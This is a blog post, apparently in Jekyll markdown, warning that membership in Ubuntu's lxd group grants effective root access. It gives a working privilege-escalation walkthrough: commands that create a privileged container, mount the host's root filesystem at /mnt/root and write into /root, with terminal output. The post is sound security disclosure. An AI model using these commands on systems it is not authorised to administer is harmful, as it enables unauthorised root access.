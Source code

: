 ```yaml
---
layout: post
title:  "Privilege Escalation via lxd"
date:   2017-09-27 00:00:00 +0100
categories: [lxd]
description: A super simple way to escalate if you find yourself a member of the lxd group
image:
  feature: lxd.jpg
  credit:
  creditlink:
---
```


LXD is Ubuntu's container manager utilising linux containers.  It could be considered to act in the same sphere as docker, 

The lxd group should be considered harmful in the same way the [docker](https://www.andreas-jung.com/contents/on-docker-security-docker-group-considered-harmful) group is.  Under no circumstances should a user in a local container be given access to the lxd group.  This is because it's entirely trivial to exploit.  

Firstly, I'd check if your user is a member of this group, because chances are that if you've installed it and are a sudoer, that you are.  Upon installation, lxd automatically adds every user to the lxd group.  Whilst this could be considered okay, considering that a sudoer automatically has root access, it forgets that sudo has auditing capabilities in place, and does require a password to perform any actions that would be required by root.  In fact, merely installing lxd is equivalent to adding the following in your sudoers file.

```bash
admin    ALL=NOPASSWD: ALL
```

If someone gains access to the admin account then immediately they have full root access without a password.  Consider an ssh private key escaping into the wild or an outdated service running under this user, and suddenly an attacker who still hasn't cracked the admin accounts password has full root access, all because you installed lxd. 

```bash
ubuntu@ubuntu:~$ cat /etc/passwd | grep 1000 
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash 
ubuntu@ubuntu:~$ cat /etc/group | grep ubuntu 
adm:x:4:syslog,ubuntu 
cdrom:x:24:ubuntu 
sudo:x:27:ubuntu 
dip:x:30:ubuntu 
plugdev:x:46:ubuntu 
lpadmin:x:113:ubuntu 
ubuntu:x:1000: 
sambashare:x:128:ubuntu 
ubuntu@ubuntu:~$ sudo su 
[sudo] password for ubuntu:  
root@ubuntu:/home/ubuntu# apt-get install lxd 
----SNIP----
root@ubuntu:/home/ubuntu# cat /etc/passwd | grep 1000 
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash 
root@ubuntu:/home/ubuntu# cat /etc/group | grep ubuntu 
adm:x:4:syslog,ubuntu 
cdrom:x:24:ubuntu 
sudo:x:27:ubuntu 
dip:x:30:ubuntu 
plugdev:x:46:ubuntu 
lpadmin:x:113:ubuntu 
ubuntu:x:1000: 
sambashare:x:128:ubuntu 
lxd:x:129:ubuntu 
```

I'm not arguing against the existence of the lxd group, merely that it increases your attack surface without notifying the user at all.  Discovering this was down to a user not realising the power this group gave their account, and whilst sudo privilege was removed, lxd access was not. 

Exploiting
-----------
So it's all good me harping on about the security risks but lets see it in action.  I only found this thanks to [#2003](https://github.com/lxc/lxd/issues/2003)

```bash
ubuntu@ubuntu:~$ lxc init ubuntu:16.04 test -c security.privileged=true 
Creating test 
ubuntu@ubuntu:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
Device whatever added to test 
ubuntu@ubuntu:~$ lxc start test 
ubuntu@ubuntu:~$ lxc exec test bash 
```

Here we have created an lxc container, assigned it security privileges and mounted the full disk under `/mnt/root`.  

```bash
ubuntu@ubuntu:~$ lxc exec test bash 
root@test:~# cd /mnt/root 
root@test:/mnt/root# ls 
bin   cdrom  etc   initrd.img  lib64       media  opt   root  sbin  srv  tmp  var 
boot  dev    home  lib         lost+found  mnt    proc  run   snap  sys  usr  vmlinuz 
root@test:/mnt/root# cd root 
root@test:/mnt/root/root# ls 
root@test:/mnt/root/root# touch ICanDoWhatever 
root@test:/mnt/root/root# exit 
exit 
ubuntu@ubuntu:~$ cat /root/ICanDoWhatever 
cat: /root/ICanDoWhatever: Permission denied 
ubuntu@ubuntu:~$ sudo su 
root@ubuntu:/home/ubuntu# cat /root/ICanDoWhatever 
root@ubuntu:/home/ubuntu# ls /root 
ICanDoWhatever 
root@ubuntu:/home/ubuntu#  
```

So now see how we haven't once typed our password in or escalated privileges manually.  We could even remove ourselves from sudoers and do all this, making root escalation trivial.  Lesson learnt, use the lxd group with care.
